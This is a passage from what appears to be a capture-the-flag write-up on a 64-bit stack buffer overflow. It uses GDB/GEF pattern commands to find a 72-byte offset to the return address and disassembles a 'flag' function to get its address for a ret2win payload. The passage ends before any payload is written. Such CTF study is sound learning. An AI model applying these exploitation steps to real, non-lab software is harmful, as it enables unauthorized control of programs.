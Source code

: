 2. Using `pattern` function in GDB

```terminal
$ gdb vuln
gef➤  pattern create 100
[+] Generating a pattern of 100 bytes (n=8)
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa
[+] Saved as '$_gef0'
gef➤  run
```
- input the pattern created 

```terminal
Welcome to 64-bit. Give me a string that gets you the flag: 
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa
```

- Check the offset of the value in `rsp` using `pattern offset`
gef➤  pattern offset jaaaaaaakaaaaaaalaaaaaaamaaa
[+] Searching for '6161616d616161616161616c616161616161616b616161616161616a'/'6a616161616161616b616161616161616c616161616161616d616161' with period=8
[+] Found at offset 72 (big-endian search)

1. Crafting payload

- Get the `flag` function address

```terminal
$ gdb vuln
gef➤  disas flag
Dump of assembler code for function flag:
   0x0000000000401236 <+0>:     endbr64
   0x000000000040123a <+4>:     push   rbp
   0x000000000040123b <+5>:     mov    rbp,rsp
   0x000000000040123e <+8>:     sub    rsp,0x50
   0x0000000000401242 <+12>:    lea    rsi,[rip+0xdbf]        # 0x402008
   0x0000000000401249 <+19>:    lea    rdi,[rip+0xdba]        # 0x40200a
   0x0000000000401250 <+26>:    call   0x401130 <fopen@plt>
   0x0000000000401255 <+31>:    mov    QWORD PTR [rbp-0x8],rax
   0x0000000000401259 <+35>:    cmp    QWORD PTR [rbp-0x8],0x0
   0x000000000040125e <+40>:    jne    0x401289 <flag+83>
   0x0000000000401260 <+42>:    lea    rdx,[rip+0xdac]        # 0x402013
   0x0000000000401267 <+49>:    lea    rsi,[rip+0xdba]        # 0x402028
   0x000000000040126e <+56>:    lea    rdi,[rip+0xde8]        # 0x40205d
   0x0000000000401275 <+63>:    mov    eax,0x0
   0x000000000040127a <+68>:    call   0x4010e0 <printf@plt>
   0x000000000040127f <+73>:    mov    edi,0x0
   0x0000000000401284 <+78>:    call   0x401140 <exit@plt>
   0x0000000000401289 <+83>:    mov    rdx,QWORD PTR [rbp-0x8]
   0x000000000040128d <+87>:    lea    rax,[rbp-0x50]
   0x0000000000401291 <+91>:    mov    esi,0x40
   0x0000000000401296 <+96>:    mov    rdi,rax
   0x0000000000401299 <+99>:    call   0x4010f0 <fgets@plt>
   0x000000000040129e <+104>:   lea    rax,[rbp-0x50]
   0x00000000004012a2 <+108>:   mov    rdi,rax
   0x00000000004012a5 <+111>:   mov    eax,0x0
   0x00000000004012aa <+116>:   call   0x4010e0 <printf@plt>
   0x00000000004012af <+121>:   nop
   0x00000000004012b0 <+122>:   leave
   0x00000000004012b1 <+123>:   ret
End of assembler dump.
```
